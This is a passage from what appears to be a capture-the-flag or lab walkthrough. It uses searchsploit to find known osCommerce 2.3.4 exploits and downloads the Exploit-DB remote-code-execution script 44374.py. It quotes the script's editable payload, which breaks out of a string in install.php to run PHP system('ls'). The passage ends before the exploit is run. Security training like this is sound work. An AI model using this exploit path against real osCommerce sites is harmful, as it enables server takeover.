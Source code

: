 <br>

I take a look around the webpage but don't find anything interesting like SQLi, LFI, etc.

We know the page is running **osCommerce v2.3.4** so let's see if there are any exploits available for it.

`searchsploit osCommerce 2.3.4`

```bash
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                                                              | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                                                            | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                                                         | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                                                          | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                                                             | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                                                               | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                                                               | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                                                                           | php/webapps/50128.py
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

I start off downloading the first RCE **44374.py**:

`searchsploit -m 44374.py`

```bash
  Exploit: osCommerce 2.3.4.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44374
     Path: /usr/share/exploitdb/exploits/php/webapps/44374.py
File Type: ASCII text

Copied to: /home/kali/Downloads/44374.py
```

Taking a look at the code shows us that we don't provide arguments to the script but instead modify it and then run:

```python
base_url = "http://localhost//oscommerce-2.3.4.1/catalog/"
target_url = "http://localhost/oscommerce-2.3.4.1/catalog/install/install.php?step=4"

payload = '\');'
payload += 'system("ls");'    # this is where you enter you PHP payload
payload += '/*'
```
